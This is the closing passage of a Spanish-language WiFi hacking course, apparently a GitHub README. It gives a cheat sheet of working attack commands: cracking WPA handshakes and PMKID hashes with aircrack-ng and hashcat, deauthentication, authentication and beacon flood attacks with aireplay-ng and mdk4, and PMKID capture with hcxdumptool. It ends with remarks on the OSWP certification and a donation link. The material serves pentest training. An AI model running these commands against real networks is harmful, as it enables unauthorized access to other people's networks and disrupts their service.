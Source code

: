 > Crackear WPA handshakes con **aircrack-ng**
```sh
aircrack-ng captura-01.cap -e <essid> -w /usr/share/wordlists/rockyou.txt
```

> Formatear handshakes WPA con **cap2hccapx**
```sh
cap2hccapx captura-01.cap handshake_formateado
```

> Crackear handshakes WPA (formateados previamente con **cap2hccapx**) o PMKID (formateados previamente con **hcxpcapngtool**)
```sh
hashcat -m 22000 hashes /usr/share/wordlists/rockyou.txt
```

> Simple ataque de deauthenticacion
```sh
aireplay-ng -0 10 -e "nombre-de-la-wifi" -c FF:FF:FF:FF:FF:FF wlan0mon
```

> Simple ataque de authenticacion
```sh
mdk4 wlan0mon a -i <bssid> -m
```

> Simple ataque de Beacon Flood
```sh
mdk4 wlan0mon b -c <número-del-canal> -s 2000
```

> Ataque PMKID (obtencion de handshakes)
```sh
hcxdumptool -i wlan0mon -o captura –enable_status=1
```

> Convertir PMKID handshakes a formato crackeable
```sh
hcxpcapngtool -o hashes captura
```

> Crea un grafico a partir de una captura de **airodump-ng**
```sh
airgraph-ng -i captura-01.csv -o grafico.png -g CAPR
```

## Conclusión

Bueno gente pues esto ha sido todo, espero que hayáis aprendido mucho sobre hacking wifi, los diferentes ataques, funciones extra y demás. También deciros que si queréis certificaros con un examen práctico sobre hacking wifi tenéis el **OSWP** de **OffensiveSecurity**, lo malo de el examen es que hasta donde yo sé, se centran demasiado en el protocolo **WEP**, el cual no se usa casi nada actualmente por lo que estaría bien que se enfocasen más en otros ataques actuales (Ademas de que es un examen bastante caro). Si tenéis alguna sugerencia o crees que me ha faltado algo por explicar me podéis contactar sin problema.

**¡Hasta la próxima!**

[Volver arriba](#)

*Si crees que el curso ha merecido la pena, agradeceria que me apoyases :D*

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/d3ext)


